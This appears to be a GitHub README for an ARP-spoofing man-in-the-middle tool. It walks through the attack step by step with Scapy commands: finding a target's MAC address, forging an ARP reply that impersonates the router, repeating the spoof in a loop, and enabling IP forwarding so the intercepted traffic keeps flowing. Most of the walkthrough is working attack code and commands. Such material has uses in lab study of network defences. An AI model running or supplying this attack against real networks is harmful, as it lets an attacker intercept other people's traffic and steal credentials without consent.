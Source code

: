 # ArpSpoof-MITM-Framework

        - Usage (attack on a network with 3 machines: router, attacker, target):

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
    Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

    Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
            Getting mac address of target machine w/ spoofed ARP request :
            
                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address
                
                [-] arp_layer = ARP(pdst='{TARGETIP}')
                
                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet
                
                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast
                
                [-] print(answer) --> will show request and response if any received
                
                [-] print(answer[0])
                
                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                                                                                  
                
                [-] print(target_mac_address)

            Craftinfg Malicious packet:

                [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
                [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
                [-] packet.show() will show the contents of our malicious packet
                
                [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
            Arp-tables on target machine:

                [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
